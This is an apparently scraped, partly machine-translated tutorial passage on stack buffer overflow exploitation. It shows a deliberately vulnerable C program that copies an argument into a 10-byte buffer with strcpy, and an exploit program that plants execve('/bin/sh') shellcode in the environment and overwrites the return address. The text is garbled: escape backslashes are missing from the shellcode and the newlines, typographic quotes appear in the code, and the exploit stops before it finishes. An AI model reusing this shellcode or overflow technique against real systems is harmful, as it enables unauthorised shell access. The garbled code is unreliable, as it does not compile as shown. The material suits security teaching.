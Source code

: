 We will exploit our provided program (because the current gcc converts the stack of main() in a swamp), although with a smaller buffer to make it similar to our friend:

    #include <stdio.h>
    #include <string.h>

void print(char\* arg)  
{  
char buffer\[10\];  
strcpy(buffer, arg);  
}

int main(int argc, char\*\* argv)  
{  
print(argv\[1\]);  
return 0;  
}

And the exploit:

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>

#define FILLING 22  
#define PATH  “./vuln”

char shellcode\[\] =  
“x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50”  
“x53x89xe1x31xd2xb0x0bxcdx80”;

void panic(char\* s)  
{  
perror(s);  
exit(-1);  
}

int main(int argc, char\*\* argv)  
{  
char arg\[FILLING + sizeof(void\*)\];  
char\* env\[\] = {shellcode, NULL};  
uint32\_t\* addr;  
int i;

for(i = 0; i < FILLING; i++)  
arg\[i\] = ‘A’;

addr = (int\*)(arg + FILLING);  
\*addr = 0xffffe000 – 4 \* 2 – (strlen(PATH) + 1) – (strlen(shellcode) + 1);  
printf(“Usando direccion: \[ %p \]n”, \*addr);

printf(“Payload: “);  
for(i = 0; i < FILLING + 4; i++)  
printf(“%02x”, (unsigned char) arg\[i\]);  
putchar(‘n’);
